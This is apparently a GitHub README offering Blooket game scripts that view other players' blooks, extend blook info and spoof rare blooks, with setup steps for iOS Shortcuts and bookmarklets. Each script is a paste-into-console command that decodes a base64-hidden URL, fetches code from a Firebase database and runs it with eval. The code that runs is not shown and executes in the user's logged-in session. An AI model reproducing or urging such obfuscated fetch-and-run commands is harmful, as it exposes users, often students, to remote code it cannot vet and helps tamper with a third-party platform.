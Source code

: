 
# Blooket Stuff - JS

# blookViewer.js
### See other people's blooks in the form of your own blook page
</br>

Open console (ctrl + shift + j) and paste the following:

```js
fetch(atob('aHR0cHM6Ly9ibG9va2V0LTM0NGM5LWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9ibG9va1ZpZXdlci5qc29u')).then((r) => r.text().then((t)=>eval(JSON.parse(t))))
```


# blookInfoExtender.js
### Show extended info on all of the blooks
</br>

```js
fetch(atob('aHR0cHM6Ly9ibG9va2V0LTM0NGM5LWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9ibG9va0luZm9FeHRlbmRlci5qc29u')).then((r) => r.text().then((t)=>eval(JSON.parse(t))))
```

# spoofer.js
### Show all of the blooks in your blook page along with custom ones as a special rarity

</br>

Open console (ctrl + shift + j) and paste the following:

```js
fetch(atob('aHR0cHM6Ly9ibG9va2V0LTM0NGM5LWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9zcG9vZmVyLmpzb24=')).then((r) => r.text().then((t)=>eval(JSON.parse(t))))
```

## IOS Mobile Devices
Install the shortcuts app through app store (if not already built into device)
Open up app
- Tap on the left tab that says 'Sharesheets'
![F87F7B65-0413-4027-98CF-FBBAB9315790](https://user-images.githubusercontent.com/82774618/143507853-bf8b4ebd-e848-47de-b6a5-2c85deb4a974.jpeg)

- Click the plus sign in the top of the screen (+ icon)
![B2805D19-0D45-4097-ABD4-0B3A9665EC26](https://user-images.githubusercontent.com/82774618/143507877-2ce7531f-3e73-48ac-9fa5-385aab7118eb.jpeg)

- Change the 'Accepts' box to only safari web pages
![3E7BE1A6-5EC5-45DC-8FA3-C163330980DA](https://user-images.githubusercontent.com/82774618/143507962-1fd8ae2b-81dd-4dd6-8936-09c3aa1361f9.jpeg)

- Go into the left box and tap on 'Web', scroll until you find 'Run JavaScript On WebPage'
- Drag out box
![11FABDE7-A552-4DED-8BC2-F0C31805BC36](https://user-images.githubusercontent.com/82774618/143508048-a5b887ff-9c15-47d8-bd50-2a5fb14a078a.jpeg)

- Replace contents with below
![D38FCE82-5660-42E6-90DC-2E152ADDB7ED](https://user-images.githubusercontent.com/82774618/145502962-9b43a684-1552-48f5-bf16-2cb75b001c04.jpeg)


- Open up safari, copy the code from the js file, and head to blooket 
- Go to correct page for script
- Tap on the share icon in the top right corner, scroll until you see your shortcut, and run it
![C21BCA66-6269-4E6C-82E4-CE4DD131D718](https://user-images.githubusercontent.com/82774618/143508281-9d6aa128-85c5-4b18-8536-31130bff9c37.jpeg)

### Note! This will work with all scripts and other javascript, so don't delete the shortcut when you're done.


## Bookmarklets 
- Go to any page and create a new bookmark with the favorite icon (star)
- Replace bookmark url with `javascript:`
- Paste fetch script from above 
### When you finish it should look something like:
*`javascript:fetch(atob('base64string')).then((r) => r.text().then(eval))`*
<br>
To run it, head to blooket and click the bookmark



## Issues & Bugs
- Check for any mistakes you may have made 
- If you are certain it is a problem with the code, go to the [**`Issues`**](https://github.com/GooseterV/Blooket/issues/new) tab of the repo and create a new issue
